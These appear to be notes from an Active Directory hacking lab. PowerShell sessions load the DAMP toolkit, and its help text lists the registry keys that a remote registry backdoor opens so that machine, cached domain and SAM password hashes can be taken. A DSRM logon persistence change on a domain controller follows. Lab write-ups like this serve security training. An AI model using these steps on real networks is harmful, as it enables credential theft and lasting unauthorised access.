 	* Examples

```
PS C:\Windows\system32> cd C:\AD\Tools\
PS C:\AD\Tools> Expand-Archive .\DAMP-master.zip
PS C:\AD\Tools> cd .\DAMP-master\
PS C:\AD\Tools\DAMP-master> ls

    Directory: C:\AD\Tools\DAMP-master

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/29/2021   8:16 AM                DAMP-master

PS C:\AD\Tools\DAMP-master> cd .\DAMP-master\
PS C:\AD\Tools\DAMP-master\DAMP-master> ls

    Directory: C:\AD\Tools\DAMP-master\DAMP-master

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/25/2019   2:18 PM          14041 Add-RemoteRegBackdoor.ps1
-a----        7/25/2019   2:18 PM           1504 LICENSE
-a----        7/25/2019   2:18 PM           2089 README.md
-a----        7/25/2019   2:18 PM          69364 RemoteHashRetrieval.ps1

PS C:\AD\Tools\DAMP-master\DAMP-master> . .\Add-RemoteRegBackdoor.ps1
PS C:\AD\Tools\DAMP-master\DAMP-master> . .\RemoteHashRetrieval.ps1
PS C:\AD\Tools\DAMP-master\DAMP-master> Add-RemoteRegBackdoor -?

NAME
    Add-RemoteRegBackdoor

SYNOPSIS
    Implements a new remote registry backdoor that allows for the remote retrieval of
    a system's machine account hash.

    Author: Matt Nelson (@enigma0x3), Lee Christensen (@tifkin_), Will Schroeder (@harmj0y)
    License: BSD 3-Clause
    Required Dependencies: None

SYNTAX
    Add-RemoteRegBackdoor [[-ComputerName] <String[]>] [[-Trustee] <String>] [-Credential <PSCredential>] [<CommonParameters>]

DESCRIPTION
    Adds an allow ACE with our specified trustee to the following registy keys:
        -HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg
            ^ controls access to remote registry
        -HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Control\Lsa\JD
        -HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Control\Lsa\Skew1
        -HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Control\Lsa\Data
        -HKEY_LOCAL_MACHINE:\SYSTEM\CurrentControlSet\Control\Lsa\GBG
            ^ needed to calculate the SysKey/bootkey
        -HKEY_LOCAL_MACHINE:\SECURITY key
            The following key contains the encrypted LSA key:
                HKEY_LOCAL_MACHINE:\SECURITY\Policy\PolEKList
            The following key contains the encrypted machine account hash:
                HKEY_LOCAL_MACHINE:\SECURITY\Policy\Secrets\$MACHINE.ACC\CurrVal
            Domain cached credentials are stored in subkeys here:
                HKEY_LOCAL_MACHINE:\SECURITY\Cache\*
        -HKEY_LOCAL_MACHINE:\SAM\SAM\Domains\Account
            ^ local user hashes are stored in subkeys here

```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit